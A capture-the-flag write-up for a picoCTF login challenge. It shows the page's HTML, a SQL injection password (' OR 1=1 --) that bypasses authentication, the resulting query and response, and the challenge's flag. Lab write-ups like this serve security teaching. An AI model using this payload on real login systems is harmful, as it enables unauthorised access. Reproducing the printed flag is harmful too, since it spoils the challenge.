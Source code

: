 # Sqlilite

## Description
Description
Can you login to this website?

## Solution
Upon visiting the website, we get this login page.

<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html

```
username: admin
password: ' OR 1=1 --
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1 --'
Logged in! But can you see the flag, it is in plainsight.
```

```
<pre>username: admin
password: &#039; OR 1=1 --
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; OR 1=1 --&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_8dac17f1}</p>
```

**Flag: picoCTF{L00k5_l1k3_y0u_solv3d_it_8dac17f1}**



